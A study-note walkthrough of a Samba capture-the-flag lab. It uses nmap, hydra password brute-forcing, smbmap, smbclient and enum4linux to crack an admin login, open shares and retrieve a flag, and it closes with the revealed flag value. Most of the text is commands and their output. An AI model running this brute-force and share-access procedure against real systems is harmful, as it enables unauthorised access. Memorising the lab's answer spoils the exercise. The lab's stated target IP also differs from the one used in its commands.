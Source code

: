 # 🔬SAMBA

## Lab 1

>  🔬 [Samba Recon: Dictionary Attack](https://attackdefense.pentesteracademy.com/challengedetails?cid=556)
>
>  - Target IP: `192.174.58.3`
>  - **Brute-force** of SAMBA service
>
>  - **Enumeration, brute-force, tools and flags** have been already covered in this [SMB Enum Lab 6](../../../assessment-methodologies/3-enumeration/smb-enum.md)

### Enumeration

```bash
ip -br -c a

nmap -sV 192.34.128.3
```

```bash
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: RECONLABS)
```

> 📌 Server is running SAMBA on the standard port `445`

### Brute-Force

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

```bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.34.128.3 smb
```

```bash
[445][smb] host: 192.34.128.3   login: admin   password: password1
```

![hydra admin](.gitbook/assets/image-20230319171607544.png)

### Login and Enumeration

- Use `SMBMap` tool

```bash
smbmap -H 192.34.128.3 -u admin -p password1
```

```bash
Disk  Permissions
----  -----------
shawn  READ, WRITE
nancy  READ ONLY
admin  READ, WRITE
IPC$   NO ACCESS
```

- Use `smbclient` tool to access Samba sources

```bash
smbclient -L 192.34.128.3 -U admin
```

```bash
smbclient //192.34.128.3/shawn -U admin
```

```bash
help
dir
# check files and folders in that share
```

```bash
smbclient //192.34.128.3/nancy -U admin
```

```bash
cd dir\
get flag
exit
```

```bash
smbclient //192.34.128.3/admin -U admin
```

```
cd hidden
get flag.tar.gz
exit
```

```bash
tar xzf flag.tar.gz
cat flag
```

- Use `enum4linux`tool

```bash
enum4linux -a 192.34.128.3
# a = enumerate all information
```

![](.gitbook/assets/image-20230319172449606.png)

```bash
enum4linux -a -u admin -p password1 192.34.128.3
```

![enum4linux part of response](.gitbook/assets/image-20230319172756465.png)



<details>
<summary>Reveal Flag:  🚩</summary>



`2727069bc058053bd561ce372721c92e`

</details>

------


